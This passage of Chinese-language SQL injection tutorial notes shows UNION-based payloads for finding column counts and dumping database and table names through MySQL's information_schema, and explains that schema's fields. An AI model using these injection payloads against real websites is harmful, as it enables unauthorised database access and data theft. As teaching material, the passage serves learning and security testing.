 需要注意的是，在测试**删除功能**时尽量不要使用`and 1=1`，否则可能会将数据全部删除

**字符型**

与数字型类似，只是要注意单引号/双引号/括号的闭合，可以在最后加上注释符把后面的闭合符号和语句直接注释掉

#### 判断字段数

```sql
?artid=1 order by 4
# 遍历数字，页面内容回显正常说明列数正确
```

order by 无法使用时，可以通过SELECT NULL判断

```sql
?artid=1 SELECT NULL, NULL, NULL, NULL
```

#### 暴库名

```sql
?artid=-1 union select 1, database(), 3, 4
```

#### 暴表名

```sql
?artid=-1 union select 1,group_concat(table_name), 3, 4 from information_schema.tables where table_schema=xxx
```

### information_schema.tables 

`information_schema` 是 MySQL 自带的**系统数据库**，里面存放了数据库的元数据（metadata），比如：

- 所有数据库的名字
- 每个数据库里的表名
- 每张表的字段名、索引等信息

其中的 **`tables` 表** 保存了 **所有数据库中的所有表** 的信息。

`information_schema.tables` 的常见字段包括：

- `table_schema`：表所在的数据库名
- `table_name`：表的名字
- `table_type`：表的类型（BASE TABLE 或 VIEW）
- `engine`：存储引擎（如 InnoDB）
- `create_time`：表的创建时间

### table_schema

`table_schema` 字段表示**表所属的数据库**，也就是数据库名。

比如：
 如果你有一个数据库 `blog`，里面有一张 `article` 表，那么：

```
SELECT table_name, table_schema FROM information_schema.tables;
```
